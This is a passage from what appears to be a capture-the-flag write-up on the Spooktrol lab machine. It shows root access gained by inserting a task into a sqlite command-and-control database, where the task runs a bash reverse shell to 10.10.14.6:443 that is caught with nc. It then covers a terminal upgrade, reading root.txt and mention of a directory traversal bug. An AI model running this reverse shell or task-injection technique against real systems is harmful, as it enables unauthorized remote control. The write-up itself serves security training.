     COMMIT



Now I'll just add my own:



    sqlite> INSERT INTO tasks VALUES(5,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"','','');



I gave it id 5, since 4 was the last used. The session is the one on
spookytrol. The status is 0 for incomplete. The type is 1, for
execution, and the command is a reverse shell.

After a minute or so, at a waiting `nc`:



    oxdf@parrot$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.123.
    Ncat: Connection from 10.10.11.123:58172.
    bash: cannot set terminal process group (16277): Inappropriate ioctl for device
    bash: no job control in this shell
    root@spooktrol:~# 



Terminal upgrade:



    root@spooktrol:~# script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    root@spooktrol:~# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@spooktrol:~# 



And grab `root.txt`:



    root@spooktrol:~# cat root.txt
    92a2a92d************************



## Beyond Root - Directory Traversal

The `/file_management/` endpoint has a directory traversal bug in it.
Knowing what the box looks like, I can actually just read
`/root/user.txt`:
